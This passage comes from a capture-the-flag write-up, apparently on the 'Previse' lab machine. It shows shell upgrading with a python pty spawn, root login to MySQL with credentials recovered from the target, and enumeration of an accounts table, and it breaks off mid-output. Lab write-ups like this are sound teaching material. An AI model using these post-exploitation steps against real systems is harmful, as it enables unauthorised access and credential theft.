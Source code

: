 As expected, we are the user www-data. Exploring the system reveals the location of the user flag however we do have permissions to access it. The flag is in the /m4lwhere/ home directory.

Before continuing, we can upgrade and spawn a stty shell as we know python is on the system, however we can confirm this again:

{{< highlight bash >}}
$ which python3
/usr/bin/python3
{{< /highlight >}}

*  I am using python3 to spawn the shell as im working in zsh rather than bash.

{{< highlight bash >}}
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
[*] CTRL + Z
stty raw -echo; fg
[*] Return
export TERM=xterm-256color
{{< /highlight >}}

This spawns a more stable shell for us the work with.

# Database + Hash Cracking

We previously discovered the existence of a MySQL server and plaintext credentials, we can attempt to authenticate to the server with the following:

{{< highlight bash >}}
mysql -h localhost -u root -p'mySQL_p@ssw0rd!:)'
mysql>
{{< /highlight >}}

We succesfully connected the the MySQL Server!
We can explore the database(s) as follows:

{{< highlight bash >}}
mysql>show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use previse;
mysql> show tables;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)
SELECT * FROM accounts;
+----+----------+------------------------------------+---------------------+